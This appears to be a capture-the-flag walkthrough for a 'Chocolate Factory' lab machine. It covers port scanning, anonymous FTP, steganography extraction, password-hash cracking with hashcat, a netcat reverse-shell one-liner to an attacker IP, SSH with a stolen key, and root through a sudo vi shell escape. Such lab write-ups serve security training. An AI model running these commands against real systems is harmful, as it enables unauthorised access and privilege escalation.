## 6. Chocolate Factory

```
nmap -sC -sV <IP>
```



We found at port 113 that we have a key here

If we go there we are automatically downloaded a file called key


##### Now we cannot do cat into it



Let us run strings into it

The strings command in Linux is used to extract and display human-readable text strings from binary or non-text files, such as executables, libraries, and object files

```
strings <file>
```



```
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```
##### Found a key

Now our task is to find Charlie’s password

We have an ftp port open and found it in our nmap scan and it has anonymous login allowed



```
ftp <ip>
```

We did ftp login using credentials anonymous:anonymous



Now get this file into your system using

```get gum_room.jpg```

Now run

```steghide extract -sf gum_room.jpg```

Press enter again

We got our file

It is in b64.txt which is base64 format if we look closely



```base64 -d b64.txt > decode.txt```

Now let’s see this file

We find Charlie’s password but its non-readable



Let us decode it using john and choosing rockyou.txt directory for it

Copy Charlie data and paste in a file to decode it

hashcat -m <hash_type> -a <attack_mode> <hash_file> <word_list>

```
hashcat -m 1800 -a 0 charlie_hash_file rockyou.txt
```

| Hash Type      | Mode  |
| -------------- | ----- |
| MD5            | 0     |
| SHA1           | 100   |
| SHA256         | 1400  |
| SHA512         | 1800  |
| NTLM (Windows) | 1000  |
| bcrypt         | 3200  |
| WPA/WPA2       | 22000 |



We found password as cn7824

We logged in and were redirected to home.php which we already found with gobuster

We will now run a reverse netcat listener

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

First run a reverse shell listener in our machine

```
nc -lvnp 1234
```

Now run this command in the command thing

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.132.222 1234 >/tmp/f
```

After reverse shell

Run

```
cd /home/charlie
```

We found a file user.txt which we cant open

We also found another file

```
cat teleport
```

We found RSA file

Save this file inside ur system

```
chmod 600 charlie_rsa
```

```
ssh -i charlie_rsa charlie@<IP>
```

```
cat /home/charlie/user.txt
```



```
sudo -l
```



We found that we can go root now

##### Search on google gtfobins NOPASSWD: /usr/bin/vi

Now we found

```
sudo vi -c ':!/bin/sh' /dev/null
```

Run this in machine

We are root now

If we do ls we found 2 files


Run root.py

```
python root.py
```
